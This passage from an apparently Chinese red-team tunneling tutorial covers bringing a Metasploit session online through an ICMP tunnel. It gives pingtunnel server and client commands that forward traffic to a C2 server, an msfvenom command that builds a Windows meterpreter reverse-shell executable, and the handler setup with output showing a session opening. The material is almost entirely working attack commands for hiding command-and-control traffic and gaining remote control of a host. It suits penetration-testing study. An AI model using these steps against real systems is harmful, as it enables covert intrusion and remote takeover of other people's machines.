![image-20240109224633925](./img/Tunnel/image-20240109224633925.png)

#### 转发TCP上线msf

* 准备好一个具有公网IP的服务器，root权限运行以下命令，启动ICMP隧道服务端

```
./pingtunnel -type server -noprint 1 -nolog 1
```

* ICMP隧道客户端（即需要通过ICMP隧道上线的主机）执行以下命令即可成功创建反向ICMP隧道

```shell
pingtunnel.exe -type client -l 127.0.0.1:9999 -s icmpserver_ip -t c2_server_ip:7777 -tcp 1 -noprint 1 -nolog 1
# 该命令的意思是icmp客户端监听127.0.0.1:9999，通过连接到icmpserver_ip的icmp隧道，将127.0.0.1:9999收到的tcp数据包转发到c2_server_ip:7777
# icmpserver_ip 192.168.1.10
# c2_server_ip 192.168.1.10
```

生成反向payload的meterpreter并上传到ICMP隧道客户端执行即可上线

```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=127.0.0.1 lport=9999 -f exe -o meterpreter.exe
# 这里的lhost和lport为icmp客户端监听ip和端口
```

启动msf监听，等待meterpreter执行上线

```
# 这里的lhost和lport为icmp客户端转发到的ip和端口

msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 7777
lport => 7777
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:7777 
[*] Sending stage (200774 bytes) to 192.168.1.10
[*] Meterpreter session 1 opened (192.168.1.10:7777 -> 192.168.1.10:44832) at 2024-01-15 02:26:28 -0500

```